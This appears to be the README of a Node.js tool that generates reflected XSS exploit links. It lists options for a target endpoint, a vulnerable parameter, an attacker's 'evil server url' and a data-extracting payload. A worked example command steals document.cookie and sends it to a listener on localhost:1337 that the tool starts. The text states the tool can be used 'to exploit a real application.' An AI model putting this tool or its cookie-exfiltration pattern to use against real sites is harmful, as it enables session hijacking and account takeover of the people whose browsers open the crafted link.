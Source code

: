 usage: node reflected-xss-exploit-generator.js [options]  
  
Options:
```
-i,--interactive    The program ask you the settings 1 by 1 with a large explanation and examples. Good if you never used it before or you are not an expert

-t,--target         The vulnerable endpoint.
-p,--parameter      The vulnerable parameter.
-u,--url            Your evil server url.
-r,--receiver       Your server parameter.
  ,--payload        Code that extracts data.
  ,--php            Only output server php code.
  ,--node           Only output server node code.
-l,--listen         Start the selected php or node http server on the port specified.
-h,--help           This message

NOTICE:
+ If you don't select --php or --node both codes are outputed to terminal so you can copy and paste.
+ If you select --listen, you have to select --php or --node.
+ If you select --listen, a link will be ready to send to the target and a server will be listening too to capture the output.
```

example:  
node reflected-xss-exploit-generator.js -t 'http://localhost:8080/login.php' -p 'username' -u 'http://localhost:1337/cookiesReceiver.js' -r 'username' --payload 'document.cookie' --node -l 1337  
  
  
To run this example you need to serve the vulnerable page:  
php -f vulnerableExample/login.php -S localhost:8080  


NOTICE: THIS PROGRAM IS UNDER DEVELOMENT. Right now the --php + --listen is not working, and the --interactive is not asking if you want to listen (defaults to output code), some logs are not displaying, etc.  
The core is working, you can use it like in the example to exploit a real application.  
There is a lot of work yet to do.

